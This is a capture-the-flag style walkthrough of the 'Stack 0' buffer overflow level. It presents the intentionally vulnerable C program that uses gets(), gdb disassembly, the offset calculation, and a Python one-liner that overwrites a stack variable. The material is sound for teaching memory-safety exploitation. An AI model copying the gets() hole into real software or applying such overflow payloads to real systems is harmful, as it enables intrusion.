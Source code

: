 ```yaml
---
title: Stack 0
sidebar_position: 1
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

## Source code
```c title="source code"
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
As we can see a `modified` variable is initialized which has the qualifier `volatile` is created. The `volatile` qualifier tells the compiler to not optimize the usage of the variable as it can be changed at any time. 

Afterwards, a buffer of 64 bytes is created.

The variable is later initialized to `0`.

The `gets` system call is used to read user input into the buffer. This syscall is infamous for it's bugs. 

Let's look at the manual page.
```
 BUGS     

       Never use gets(). Because it is impossible to tell without
       knowing the data in advance how many characters gets() will read,
       and because gets() will continue to store characters past the end
       of the buffer, it is extremely dangerous to use. It has been
       used to break computer security. 
```

So the `gets` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.

This is the vulnerability that we have to exploit.
But before that let's go through the rest of the code. 

There is an `if` statement which checks if the value of `modified` in not equal to zero. If it is not equal to 0, it prints out a string `else` it prompts us to try again.

We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.

Let's disassemble the program in `gdb`.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```

Look at the instruction at `main+9`.
```
--snip--;
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
--snip--;
```
We can see that the variable is located at `esp+0x5c` and is set to zero using dereferencing.

Next, we want to locate the buffer.
```
--snip--;
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
--snip--;
```
In 32-bit assembly the arguments for a `call` are stored onto the `stack`.

In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.

The distance between the location of the `modified` variable and the buffer is the following:
```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```

The variable is located right where the buffer ends.

Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable. 
```
$ ./stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaB
you have changed the 'modified' variable
```

We can use `python` to craft the exploit.

## Exploit
```
$ python -c 'print "a"*(64)+"B"' | ./stack0
you have changed the 'modified' variable
```

